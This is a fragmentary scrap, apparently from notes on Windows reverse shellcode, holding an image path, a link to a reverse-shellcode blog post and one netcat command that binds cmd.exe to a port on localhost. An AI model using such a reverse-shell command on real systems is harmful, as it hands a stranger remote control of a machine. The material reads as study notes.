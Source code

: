 https://h0mbre.github.io/Win32_Reverse_Shellcode/#

nc 127.0.0.1 4444 -e cmd.exe => netcat for windows.